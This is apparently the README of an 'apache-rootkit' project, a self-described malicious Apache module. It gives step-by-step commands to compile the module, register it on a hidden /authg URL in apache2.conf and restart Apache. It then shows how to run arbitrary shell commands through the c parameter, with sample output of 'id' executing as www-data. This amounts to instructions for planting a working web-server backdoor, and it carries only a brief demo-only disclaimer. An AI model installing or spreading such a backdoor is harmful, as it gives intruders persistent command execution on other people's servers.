 # apache-rootkit
A malicious Apache module with rootkit functionality
C. Papathanasiou 2015

 Compile by running:
```
   $ apxs -c -i mod_authg.c
```
 Then activate it in Apache's apache2.conf file for instance
 for the URL /authg in as follows:
```
    #   apache2.conf
    LoadModule authg_module modules/mod_authg.so
    <Location /authg>
    SetHandler authg
   </Location>
```
  Then after restarting Apache via
```
    $ apachectl restart
```
  you immediately can request the URL /authg?c=cmd and watch for the
  output of this module. This can be achieved for instance via:
```
    $ lynx -mime_header http://localhost/authg?c=id 
```
  The output should be similar to the following one:
```
     HTTP/1.1 200 OK
     Date: Thu, 19 Feb 2015 16:33:30 GMT
     Server: Apache/2.4.7 (Ubuntu)
     Content-Length: 54
     Connection: close
     Content-Type: text/html

     uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Created for demo purposes only, no liability accepted.
